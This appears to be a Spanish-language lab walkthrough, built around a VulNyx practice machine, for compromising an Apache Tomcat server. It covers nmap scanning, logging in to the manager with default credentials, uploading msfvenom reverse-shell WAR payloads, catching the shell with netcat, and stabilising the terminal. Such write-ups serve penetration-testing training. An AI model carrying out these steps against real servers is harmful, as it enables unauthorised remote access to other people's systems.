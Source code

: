 
----
- TAG: #hacking #Servidor #Tomcat
----

**Hoy vamos a estar viendo cómo explotar un servidor `Apache Tomcat` vulnerable. Vamos a aprender a generar un **payload msfvenom** que sea compatible con `Tomcat` y obtener intrusión en la máquina víctima.**

Vamos a ver 2 tipos de **payloads** diferentes para probar en un servidor `Tomcat`.

Para este ejemplo, utilizaremos una [Máquina Vulnerable - Deploy](https://vulnyx.com/#deploy).

## Procedimiento

Una vez iniciada, vamos a nuestra máquina **Kali Linux** y realizamos el siguiente procedimiento:

1. **Arp-scan** para localizar la máquina víctima.
2. **Ping** para ver el tipo de TTL y entender a qué nos enfrentamos.
3. **Nmap** para encontrar vulnerabilidades y puertos abiertos:
   ```bash
   nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
   ```

Al finalizar el escaneo, veremos que nos muestra 3 puertos: `22`, `80` y el puerto `8080`.

En la información del puerto `8080`, observamos que corre un servicio `Tomcat`. Así que nos dirigimos a la dirección IP con el puerto indicado para ver qué nos muestra.

Al principio, parece el inicio normal cuando recién se instala el servicio, sin configurar.

### Acceso al Panel de Configuración

En caso de encontrar un **Tomcat** en el examen, normalmente vendrá así por defecto. Nos dirigimos al vínculo que dice **manager webapp**, donde nos pedirá unas credenciales. Estas credenciales suelen estar por defecto cuando recién se inicia la instalación de **Tomcat**. Si no tienes ni idea, puedes buscar en Google desde otra máquina, ya que en el examen no hay conexión a internet.

**Búsqueda:** hacktricks apache tomcat default credentials

Si abres algún enlace, por ejemplo, este que encontramos:
- [HackTricks - Apache Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

Podríamos probar uno a uno, pero a veces ocurre que al poner "cancelar" automáticamente se muestran el usuario y la contraseña:

![[apachetomcat.png]]

Ahora, si nos logueamos, veremos que entramos al panel principal de configuración de **Tomcat**.

### Carga de Archivos Maliciosos

En una página así, por lo general, se encuentra un panel para la carga de archivos, por ejemplo, el **WAR file to deploy**.

En este apartado, seremos capaces de subir archivos maliciosos para ganar intrusión en la máquina víctima.

Para ello, necesitaremos crear el payload con **msfvenom**:

1. Consultamos nuestra dirección IP privada:
   ```bash
   hostname -I
   ```

2. Utilizamos nuestra dirección para indicarle a msfvenom:
   ```bash
   msfvenom -p java/shell_reverse_tcp LHOST=1.2.3.4 LPORT=443 -f war -o reversel.war
   ```

En Tomcat, la subida de archivos puede funcionar o no, así que aquí se indican dos maneras de crear dos payloads diferentes para probar:

Si el primer payload no funciona, podemos probar con este payload agregando `jsp_`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=1.2.3.4 LPORT=443 -f war -o reverse2.war
```

### Prueba de Payloads

Ahora, si cargamos los archivos, veremos que aparecen en el tablero de inicio. Así que nos ponemos en escucha e intentamos con cada uno de ellos para ver cuál ha funcionado:

```bash
nc -nlvp 443
```

Al probar el primero, veremos que no nos carga y aparece un error. Pero si probamos el segundo payload, obtenemos acceso a la máquina.

### Saneamiento de la Terminal

Ahora realizamos el correcto saneamiento de la terminal:

1. Obtenemos una bash interactiva:
   ```bash
   script /dev/null -c bash
   ```

2. Salimos a la terminal normal y hacemos lo siguiente:
   ```bash
   stty raw -echo; fg
   ```

Recuerda poner lo siguiente en la salida o respuesta:
   ```bash
   reset xterm
   ```

3. Exportamos variables de entorno con:
   ```bash
   export SHELL=bash
   export TERM=xterm
   ```

Y listo, esto sería básicamente cómo explotar una vulnerabilidad de **Apache Tomcat** paso a paso.

---